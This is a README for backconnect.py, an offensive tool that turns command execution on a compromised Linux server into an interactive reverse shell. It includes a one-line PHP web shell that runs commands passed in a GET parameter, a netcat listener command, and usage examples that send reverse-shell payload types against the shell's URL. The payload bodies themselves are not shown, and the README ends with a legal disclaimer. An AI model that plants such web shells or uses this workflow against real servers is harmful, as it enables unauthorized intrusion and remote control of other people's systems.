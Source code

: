 # Backconnect

After gaining a command execution shell on a server, this script will help leverage that into a terminal shell using various back connect payloads automatically.

Currently only IPv4 listeners and Linux targets are supported.

##### Example PHP Shell:

The type of shell this script expects is a simple shell such as:
```
<?php system($_GET['cmd']); ?>
```
More complex shells should work as long as they are able to execute system commands via a GET parameter.

## Installation

backconnect.py requires Python3 and the Python Requests package.

`pip install requests`

## Usage
1. Install the command execution shell so it is publicly accessible via a URL.
2. Set up a listener to receive the incoming connection.
	- `nc -nvlp {PORT}`
3. Run this script.

## How to use

```
backconnect.py [-i IP] [-p PORT] [-u URL] [--list] [--view VIEW] [--payloads PAYLOADS]
```
##### -u / --url
This is the URL of the command execution shell, including the necessary injection parameter.

For example, an expected URL parameter would look like the following:

`http://localhost/shell.php?cmd=`

##### -i / --ip
This is the listener IP for the remote server to back-connect to, this is typically your IP address.

##### -p / --port
This is the listener port for the target server to back-connect to.

###### Example:
```
backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337
```

##### --list
This lists all the available payload types, you can specify these using the *--payloads* argument or view the payload command that is used with the *--view* argument.

`backconnect.py --list`

##### --view
You can specify a payload type and it will show you the payload command that is executed.

`backconnect.py --view {payload_type}`

`backconnect.py --view python_1`

##### --payloads
By default, backconnect.py tests all available payload types. If you know which payload type works for your current target you can specify these individually or in a comma-separated list.

`./backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337 --payloads python_1,php_1`

`./backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337 --payloads bash_tcp_1`


## Disclaimer
Usage of this tool for attacking targets without prior mutual consent
is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or
damage caused by this program
